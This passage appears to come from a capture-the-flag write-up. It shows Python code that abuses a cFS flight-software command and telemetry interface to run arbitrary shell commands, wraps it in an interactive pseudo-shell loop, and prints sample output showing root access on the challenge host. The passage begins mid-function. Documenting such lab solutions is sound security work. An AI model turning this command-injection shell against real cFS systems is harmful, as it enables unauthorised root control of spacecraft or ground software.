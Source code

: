 ```python
    while True:
        output = recv_from_first_conn()
        if 'Failed to invoke shell command:' in output:
            return 'FAILED'
        elif 'Invoked shell command:' in output:
            break

    # Now filter received telemetry packets
    received_output = []
    do_continue = True
    while do_continue:
        for stream_id, sequence, received_pkt in cfs_recv():
            if stream_id == 2056 and b'Invoked shell command:' in received_pkt:
                do_continue = False
                break
            if stream_id == 2063:
                received_output.append(received_pkt[5:])
    output = b''.join(received_output)
    # There is garbage in the end
    assert output.endswith(b'\n$\0'), output
    output = output[:-3].decode('utf-8', 'replace').rstrip()
    return output

def cfs_recv():
    """Receive from cFS service socket"""
    received_pkts = []
    while cfs_service.can_recv(timeout=.1):
        pkt = cfs_service.recvn(7)
        stream_id, sequence, length, seconds = struct.unpack('>HHHB', pkt)
        # logger.debug("Recv hdr: stream=%d, seq=%d [%d=%#x], seconds=%d", stream_id, sequence, length, length, seconds)
        pkt = cfs_service.recvn(length)
        # logger.debug("Recv stream=%d, seq=%d [%#x]: %r", stream_id, sequence, length, pkt)
        received_pkts.append((stream_id, sequence, pkt))
    return received_pkts


send_enable_telemetry()
while True:
    cmd = input('$ ')
    if not cmd:
        break
    output = send_shell_command(cmd.strip())
    print(output)
```

### Pseudo-shell

This allowed the sending of commands like in a real shell:
```

Some commands:
```sh
$ uname -a
Linux e52d5d08b33e 4.15.0-1065-aws #69-Ubuntu SMP Thu Mar 26 02:17:29 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/challenge
$ ls -l
total 940
-rw-r--r-- 1 root root     60 May 25 20:24 1
drwxr-xr-x 2 root root   4096 May 25 20:24 cf
```